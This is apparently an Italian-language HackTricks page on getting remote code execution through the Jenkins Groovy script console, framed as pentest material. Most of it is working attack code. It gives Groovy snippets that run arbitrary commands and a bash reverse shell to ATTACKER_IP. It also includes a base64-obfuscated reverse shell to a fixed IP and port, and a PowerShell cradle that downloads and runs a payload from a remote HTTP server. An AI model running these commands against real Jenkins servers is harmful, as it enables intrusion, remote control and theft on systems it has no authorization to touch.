 # Jenkins RCE con Groovy Script

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Jenkins RCE con Groovy Script

Questo è meno rumoroso rispetto alla creazione di un nuovo progetto in Jenkins

1. Vai a _path\_jenkins/script_
2. All'interno della casella di testo, inserisci lo script
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
È possibile eseguire un comando utilizzando: `cmd.exe /c dir`

In **linux** puoi fare: **`"ls /".execute().text`**

Se hai bisogno di utilizzare _virgolette_ e _apici singoli_ all'interno del testo, puoi utilizzare _"""PAYLOAD"""_ (virgolette doppie triple) per eseguire il payload.

**Un altro utile script groovy** è (sostituisci \[INSERISCI COMANDO]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Shell inversa in Linux

Una shell inversa è una tecnica utilizzata dai pentester per ottenere l'accesso remoto a un sistema Linux. Consiste nell'instaurare una connessione da un sistema di attaccanti a un sistema di destinazione, consentendo al pentester di eseguire comandi sul sistema di destinazione come se fosse presente fisicamente.

Per creare una shell inversa in Linux, è possibile utilizzare il seguente comando:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

Sostituisci `ATTACKER_IP` con l'indirizzo IP del sistema di attaccanti e `ATTACKER_PORT` con la porta desiderata per la connessione inversa.

Una volta eseguito il comando, il sistema di destinazione si connetterà al sistema di attaccanti e fornirà una shell interattiva. Il pentester potrà quindi eseguire comandi sul sistema di destinazione come se fosse presente fisicamente.

È importante notare che l'utilizzo di una shell inversa per scopi non autorizzati è illegale e può comportare conseguenze legali. La shell inversa dovrebbe essere utilizzata solo per scopi di pentesting autorizzati e con il consenso del proprietario del sistema.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Shell inversa in Windows

È possibile preparare un server HTTP con una shell inversa di PowerShell e utilizzare Jenkins per scaricarla ed eseguirla:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Puoi automatizzare questo processo con [**questo script**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Puoi utilizzare MSF per ottenere una shell inversa:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) su GitHub.

</details>
